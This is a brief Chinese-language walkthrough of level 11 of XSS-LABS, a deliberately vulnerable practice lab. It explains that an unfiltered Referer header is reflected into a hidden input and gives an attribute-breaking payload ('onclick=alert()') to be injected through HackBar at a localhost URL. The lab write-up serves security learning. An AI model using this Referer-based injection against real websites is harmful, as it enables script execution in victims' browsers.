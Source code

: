 ## [11]

- 查看源代码，发现有隐藏的四个input，测试得知前两个无返回，第三个过滤了双引号无法闭合。
- t_ref与referer有关。

![image-20220928185953555](XSS-LABS.assets/image-20220928185953555.png)

- 第四个input接收后端返回的referer,但对返回的referer没做任何过滤，所以这是基于referer的XSS，需要BS这类工具，这里用HackBar代替。

```shell
# payload
# 打开HackBar，勾选Referer，填写：
Click me"onclick="alert()"type="button

# 填入如下url 然后点击Execute
http://localhost:1996/level11.php?keyword=test
```

![image-20220928191443517](XSS-LABS.assets/image-20220928191443517.png)
